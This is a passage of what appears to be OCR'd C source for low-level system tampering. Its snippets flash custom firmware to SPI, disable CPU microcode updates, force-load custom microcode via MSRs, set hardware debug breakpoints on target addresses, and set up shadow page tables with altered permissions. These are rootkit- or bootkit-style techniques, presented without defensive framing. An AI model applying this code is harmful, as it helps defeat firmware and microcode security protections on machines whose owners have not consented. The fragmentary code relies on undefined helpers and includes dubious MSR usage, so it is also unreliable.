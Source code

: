 ```c
    // Flash directly to SPI
    for(int i = 0; i < FIRMWARE_SIZE; i += 256) {
        WriteFlashBlock(BASE_ADDRESS + i, &customFirmware[i], 256);
    }
}
```

### CPU Microcode Control

```c
void DisableMicrocodeUpdates() {
    // Find microcode update region
    uint8_t* ucodeRegion = FindMicrocodeRegion();
    
    // Clear update signatures
    memset(ucodeRegion, 0, UCODE_SIZE);
    
    // Prevent new updates
    PatchMSR(MSR_IA32_BIOS_SIGN_ID, 0);
}

void InjectCustomMicrocode() {
    // Load custom microcode patch
    uint8_t* customPatch = LoadResource(IDR_MICROCODE);
    
    // Force load via MSR
    __writemsr(MSR_IA32_UCODE_WRITE, (uint64_t)customPatch);
    __writemsr(MSR_IA32_UCODE_REV, 0);
}
```

### Hardware Debug Control

```c
void SetupHardwareDebug() {
    // Configure debug registers
    __writedr(6, 0);  // Clear DR6
    __writedr(7, 0);  // Clear DR7
    
    // Set breakpoints
    __writedr(0, TARGET_ADDR_1);
    __writedr(1, TARGET_ADDR_2);
    
    // Configure for execute breaks
    uint64_t dr7 = (0x1 << 0) | (0x1 << 2);
    __writedr(7, dr7);
}
```

### Memory Interception Layer

```c
// Setup shadow page tables
void InitializeShadowTables() {
    // Allocate shadow pages
    void* shadowPT = AllocatePages(PT_PAGES);
    
    // Copy current page tables
    CR3_REG cr3;
    cr3.value = __readcr3();
    CopyPageTables(cr3.address, shadowPT);
    
    // Modify permissions in shadow
    ModifyPagePerms(shadowPT);
    
```
